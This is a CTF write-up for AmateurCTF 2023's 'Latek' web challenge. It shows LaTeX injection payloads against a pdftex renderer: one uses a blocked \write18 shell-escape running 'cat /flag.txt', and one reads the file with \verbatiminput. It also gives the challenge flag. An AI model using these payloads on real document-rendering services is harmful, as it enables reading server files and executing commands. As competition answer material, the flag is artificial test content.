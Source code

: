 ```yaml
---
title: AmateurCTF '23 - Web - Latek
date: '2023-07-18'
tags: ['ctf', 'web', 'amateurctf', 'amateurctf23', 'writeup', 'lfi', 'latex', 'pdftex']
draft: false
summary: Utilizing Latex to read files from the local system.
---
```


## Challenge Description

bryanguo (not associated with the ctf), keeps saying it's pronouced latek not latex like the glove material. anyways i made this simple app so he stops paying for overleaf.

Note: flag is ONLY at `/flag.txt`

Author: smashmaster

Connection info: [latek.amt.rs](https://latek.amt.rs)

## Solution

Visting the website, we're greeted with the following

![chal](/static/writeups/amateurctf2023/web/latek-0.png)

We can see, that the code is using `pdftex` to render the latex. Let's try to read the flag using the following payload

```latex
\documentclass{article}
\begin{document}
\immediate\write18{cat /flag.txt}
\end{document}
```

![chal](/static/writeups/amateurctf2023/web/latek-1.png)

Well, we can see that `\write18` is blocked. I tried searching for different ways on [hacktricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection) and the following payload worked

```latex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/flag.txt}
\end{document}
```

![chal](/static/writeups/amateurctf2023/web/latek-2.png)

Flag: `amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`
